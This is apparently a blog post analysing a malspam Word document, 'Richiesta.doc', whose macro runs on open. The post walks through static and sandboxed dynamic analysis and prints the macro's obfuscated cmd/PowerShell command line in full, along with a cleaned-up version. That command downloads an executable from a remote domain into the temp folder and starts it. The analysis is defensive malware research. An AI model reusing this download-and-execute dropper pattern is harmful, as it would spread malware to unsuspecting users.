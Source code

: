 ```yaml
---
layout: post
title: "Analysis of a malicious Word document"
description: "Analysis of a malicious Word document"
date: 2018-02-05
tags: malware
show_social: true
comments: true
---
```


Analysis of a malicious Word document used to deliver malware via a malspam campaign.

<!--more-->

The sample I'm going to analyze is a Microsoft Word document distributed via malspam.

As we will see it acts as a _downloader_ that once executed reaches out to the Internet and downloads its second stage. Unfortunately at the time of this analysis the contacted domain was already dead. Nevertheless I found interesting to complete this analysis.

The sample is named `Richiesta.doc` and its SHA256 hash is `586b7dbe2a700e50a9dda9a9e12bd985e54dc5b1b7a77a61450d638358133d3f`.

It is reported as malicious by VirusTotal (and other online sandboxes), and it's worth noting that there are many different malicious samples of `Richiesta.doc` in th wild each one with a different hash.

I will start playing with the sample on my REMnux lab virtual machine.

Examining the file with the `file` utility confirms it is a Microsoft Word document:

```
remnux@remnux:~/ex$ file Richiesta.doc
Richiesta.doc: Composite Document File V2 Document, Little Endian, Os: Windows,
Version 6.1, Code page: 1251, Template: Normal.dotm, Last Saved By: admin,
Revision Number: 2, Name of Creating Application: Microsoft Office Word,
Create Time/Date: Mon Jan 29 21:20:00 2018, Last Saved Time/Date: Mon Jan 29 21:20:00 2018,
Number of Pages: 1, Number of Words: 0, Number of Characters: 1, Security: 0
```

Let's further examine it with the [Didier Stevens](https://blog.didierstevens.com/) `oledump` tool:

```
remnux@remnux:~/ex$ oledump.py Richiesta.doc
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7427 '1Table'
  5:     60355 'Data'
  6:       496 'Macros/PROJECT'
  7:       122 'Macros/PROJECTwm'
  8: M    8163 'Macros/VBA/ThisDocument'
  9: M   14893 'Macros/VBA/Wct7kKdi5'
 10:      7570 'Macros/VBA/_VBA_PROJECT'
 11:      1786 'Macros/VBA/__SRP_0'
 12:       198 'Macros/VBA/__SRP_1'
 13:       532 'Macros/VBA/__SRP_2'
 14:       156 'Macros/VBA/__SRP_3'
 15:       671 'Macros/VBA/dir'
 16: M    8038 'Macros/VBA/tVQSqmk'
 17: M   19011 'Macros/VBA/yBcakFpM'
 18:      4096 'WordDocument'
```

As expected, those three streams marked with an `M` mean that this Word document contains Macros. I can read the Macros after decompressing the VBA stream with `oledump.py -s 8 -v Richiesta.doc` (where `8` is the number of the stream I want to decompress). Unfortunately the code looks heavily obfuscated.

Let's make a run with the `olevba` tool (from the [oletools](http://decalage.info/python/oletools) package):

```
remnux@remnux:~/ex$ olevba Richiesta.doc
```

A couple of interesting keywords contained in the obfuscated code are:
* a function named `Document_Open`: that means that the Macro is run when the Word document is opened;
* a call to `VBA.Shell` : probably the Macro runs an executable file or a system command.

`olevba` does have an option to try deobfuscate the code, but it does not help much in this case.

Anyway I won't care about deobfuscating the code. Instead I will try to run the malware and observe what it does.

To perform basic dynamic analysis, I'm going to use two virtual machines: one is a Windows 8.1 VM, equipped with malware analysis tools, where I will detonate the malware; the other is the REMnux Lab VM which I will use to direct the network traffic to.

To monitor network activity:

* Set up [ApateDNS](https://www.fireeye.com/services/freeware/apatedns.html) on the Windows VM to intercept any DNS requests and have it reply with the IP address of the REMnux VM.
* Set up [INETsim](http://www.inetsim.org/) on the REMnux VM to simulate Internet services and Wireshark to sniff network traffic.
* I'm going to monitor network traffic with Wireshark on the Windows VM as well.

To monitor system activity on the Windows VM:

* Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) (or [Process Hacker](http://processhacker.sourceforge.net)).
* Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
* Run [Regshot](https://sourceforge.net/projects/regshot).

I'm letting those programs run and exclude normal activity from Process Monitor. Then, right before installing the malware, I'm taking the first shot with Regshot.

Let's now open the Word document!

Once opened, it shows a common social engineering trick to have the victim enable Macros; it says (in Italian): _This document is for an older version of Word. To visualize its content please click 'Enable' in the yellow bar above..._.

![word](/media/20180205/word.png)

(Btw, the yellow bar with the Enable button is not visible in my screenshot because I took the screenshot after having enabled the Macros.)

As Macros are activated, the malicious code starts performing its actions. It communicates with a remote server to download a file (its second stage) which is saved under a temporary directory and then executed.

The domain contacted is `wijdqwbntuqwebqweqwizxc[.]com` as apparent from the ApateDNS log:

![apatedns](/media/20180205/apatedns.png)

Wireshark shows us the full URL where the second stage is downloaded from:

`hxxp://wijdqwbntuqwebqweqwizxc[.]com/stata/index.php?rnd=59978`

![wireshark](/media/20180205/wireshark.png)

It's worth noting that the `User-Agent` string is `15.0`: we'll see shortly that this corresponds to the version of Microsoft Word.

Taking the second shot with RegShot and comparing the results we can easily see that a new file has been created:

```
C:\Users\REM\AppData\Local\Temp\19982.exe
```

In this case the malware could not reach out to the Internet but only to the REMnux VM where INETsim was running; indeed the downloaded file contains the fake HTTP response sent by INETsim.

We can further examine what happened on the system using Process Monitor: we see that the Macros executed a system command `cmd` which in turn called the `powershell` executable to connect to the remote server and download the second stage. In the screenshot below only the events having `Operation` equal to any of `Process Start`, `WriteFile` or `TCP Connect` are shown.

![commandline](/media/20180205/commandline.png)

The full command line (highlighted in the screenshot) is:

```
cmd /c set _a1=pow&& set _a2=ersh&& set _a3=ell&& call %_a1%%_a2%%_a3% $ULjzHtTrs = 'iRJKbn';$jmVo2G = new-object System.Net.WebClient;$DSTFdKxX1 = 'oth1DC';$LyXjIuhD = (New-Object -ComObject word.application).version;$SQYyU = 'xZeKFX';$jmVo2G.headers['user-agent'] = $LyXjIuhD;$NZVXzNr0 = 'ynMSJ';$LyXjIuhD.close();$mNRwMHq = 'b85KGdV67';$LyXjIuhD.quit;$qdsyJ = 'hXUwA7Vo';$JNcVeBxf = $env:temp + '\19982.exe';$KVRjd8Y = 'G9WjeFT';foreach($mBbRidWu in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')){try{$uV3RLeIz = 'pMP6bKdGA';$jmVo2G.DownloadFile($mBbRidWu.ToString(), $JNcVeBxf);$HfVyAwt = 'D1HxGK8T';Start-Process $JNcVeBxf;$Cv31ashE = 'RLpG0dl2';break;}catch{$LlX4G = 'qIpqLRP3';}$qSK6tDU = 'fMY4dFcJ';}
```

This is somewhat confusing to read... but not so much if we clean it up a little bit.

Here is a _manually-decoded_ version of the command line just to make it easier to read. I wrote it on different lines and replaced the original names of important variables with more meaningful names.

```
cmd /c
set _a1=pow&& set _a2=ersh&& set _a3=ell
&&
call %_a1%%_a2%%_a3%
$ULjzHtTrs = 'iRJKbn';
$connection = new-object System.Net.WebClient;
$DSTFdKxX1 = 'oth1DC';
$word = (New-Object -ComObject word.application).version;
$SQYyU = 'xZeKFX';
$connection.headers['user-agent'] = $word;
$NZVXzNr0 = 'ynMSJ';
$word.close();
$mNRwMHq = 'b85KGdV67';
$word.quit;
$qdsyJ = 'hXUwA7Vo';
$malware = C:\Users\REM\AppData\Local\Temp\19982.exe';
$KVRjd8Y = 'G9WjeFT';
foreach($url in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')) {
    try{
        $uV3RLeIz = 'pMP6bKdGA';
        $connection.DownloadFile($url.ToString(), $malware);
        $HfVyAwt = 'D1HxGK8T';
        Start-Process $malware;
        $Cv31ashE = 'RLpG0dl2';
        break;
    }
    catch{
        $LlX4G = 'qIpqLRP3';
    }
    $qSK6tDU = 'fMY4dFcJ';
}
```

The first line is a call to `cmd /c` to execute the command that follows. The second line sets three environment variables, which are then concatenated on line 5 into the string `powershell` which is the argument of the command `call`.

Following the lines down we see that a `WebClient` object is created (I renamed it to `$connection`); that the Microsoft Word version is read and assigned to the `user-agent` property of the `$connection` object; that the path where the second stage malware is to be saved to is set. The `foreach` loop is where the actual download happens.

Note that the loop is executed only one time because of the `break` instruction and regardless of how many `$urls` are returned from the `Split` operation. Indeed the `Split` and all those other random strings assignments spread over are just garbage to make the code more difficult to read and reverse.

I tried to download the second stage using [Malzilla](http://malzilla.sourceforge.net/) but unfortunately without success: at this time the domain is dead or it's already been taken down. The following screenshot is from Virus Tracker:

![virustracker](/media/20180205/virustracker.png)

That's all!
